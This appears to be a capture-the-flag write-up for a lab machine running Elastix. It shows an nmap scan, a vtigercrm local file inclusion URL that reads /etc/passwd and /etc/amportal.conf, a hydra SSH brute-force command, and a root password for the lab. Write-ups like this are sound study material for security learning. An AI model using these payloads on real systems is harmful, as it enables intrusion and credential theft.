





nmap -sC -sV 10.10.10.7
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-14 19:54 EST
Nmap scan report for 10.10.10.7
Host is up (0.67s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: EXPIRE(NEVER) PIPELINING STLS IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) TOP RESP-CODES USER APOP UIDL AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: STARTTLS IMAP4rev1 NAMESPACE SORT=MODSEQ ID CATENATE OK THREAD=ORDEREDSUBJECT ACL URLAUTHA0001 X-NETSCAPE IMAP4 UIDPLUS RIGHTS=kxte MULTIAPPEND IDLE RENAME CONDSTORE Completed UNSELECT ANNOTATEMORE THREAD=REFERENCES SORT CHILDREN MAILBOX-REFERRALS LIST-SUBSCRIBED BINARY LISTEXT NO ATOMIC QUOTA LITERAL+
443/tcp   open  ssl/https?
|_ssl-date: 2020-02-15T01:59:56+00:00; +1h01m32s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 1h01m31s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 377.41 seconds
```

visiting 10.10.10.7 redirects us to https version which is an elastix login page  
searching for elastix exploit gave us the first link of Local File Inclusion  
https://www.exploit-db.com/exploits/37637  
we can also use "searchsploit -x 37637" to go through the exploit  
in the comment of the exploit we can see the URL for LFI
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```



from /etc/passwd we know user fanis exists so I tried to access /home/fanis/user.txt by replacing it with /etc/passwd in the above payload  
and we got user.txt



if we use the original payload given in the exploit file we get /etc/amportal.conf file which contains many passwords 
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```



the passwords in this config file can be the SSH password for some user  
so we can put all the users from /etc/passwd in allUsers.txt and all the passwords from /etc/amportal.conf in allPasswords.txt  
now we can use hydra to test SSH login using allUsers.txt and allPasswords.txt  
```
hydra -L allUsers.txt -P allPasswords.txt ssh://10.10.10.7
```



we can now SSH as root using password --> "jEhdIekWmdjE"


